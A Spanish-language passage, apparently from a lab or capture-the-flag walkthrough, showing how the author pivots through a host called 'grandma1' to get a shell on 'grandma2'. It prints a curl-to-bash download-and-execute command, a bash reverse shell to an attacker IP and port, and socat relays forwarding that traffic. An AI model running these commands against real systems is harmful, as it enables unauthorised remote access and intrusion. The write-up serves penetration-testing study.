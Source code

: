 Nosotros no queremos que nos cree un archivo, asi que vamos a enviarnos una revere shell. Para ello tendremos que crear túneles con socat en la máquina `grandma1` que reediriga las conexiones, ya que la `grandma2` no tiene conectividad con nuestra máquina atacante.

<br>

Para enviarme la reverse shell utilizaré el siguiente comando:

```python 
curl http://20.20.20.2:81/shell.sh | bash
```

Expongo un archivo `shell.sh` en mi máquina host por el puerto 81 con la reverse shell

```python
 bash -i >& /dev/tcp/20.20.20.2/4141 0>&1
```

Reedirgimos la petición con curl a nuestra máquina donde está el archivo

```python 
// Reedirección de la petición con curl 
./socat TCP-LISTEN:81,fork TCP:172.17.0.1:81 & disown
```
Cuando la máquina víctima lo lea y lo ejecute, mandará la shell a la 20.20.20.2 por el puerto 4141, así que reedirigimos la shell a nuestra máquina hacia un puerto en el que estemos en escucha

```python
//Reedirección de la shell 
./socat TCP-LISTEN:4141,fork TCP:172.17.0.1:4141 & disown
```
Enviamos el payload y nos llega la shell 

![Image 12](/assets/images/grandma/payload.png)


![Image 13](/assets/images/grandma/g2shell.png) 

<br> 
